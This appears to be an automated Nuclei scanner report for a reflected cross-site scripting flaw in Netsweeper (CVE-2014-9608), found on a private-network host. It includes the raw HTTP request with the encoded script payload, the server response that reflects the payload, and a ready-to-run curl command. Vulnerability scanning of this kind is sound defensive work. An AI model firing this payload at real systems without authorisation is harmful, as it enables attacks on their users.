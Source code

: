 ### Netsweeper 4.0.3 - Cross-Site Scripting (CVE-2014-9608) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2014-9608**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/webadmin/policy/group_table_ajax.php/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:28 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Netsweeper 4.0.3 - Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2014, netsweeper, xss |
| Severity | medium |
| Description | A cross-site scripting vulnerability in webadmin/policy/group_table_ajax.php/ in Netsweeper before 3.1.10, 4.0.x before 4.0.9, and 4.1.x before 4.1.2 allows remote attackers to inject arbitrary web script or HTML via the PATH_INFO. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2014-9608](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-9608) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /webadmin/policy/group_table_ajax.php/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 227
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/webadmin/policy/group_table_ajax.php/</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://packetstormsecurity.com/files/download/133034/netsweeper-issues.tgz
- https://nvd.nist.gov/vuln/detail/cve-2014-9608
- http://packetstormsecurity.com/files/133034/netsweeper-bypass-xss-redirection-sql-injection-execution.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F' 'http://192.168.198.179:8080/webadmin/policy/group_table_ajax.php/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)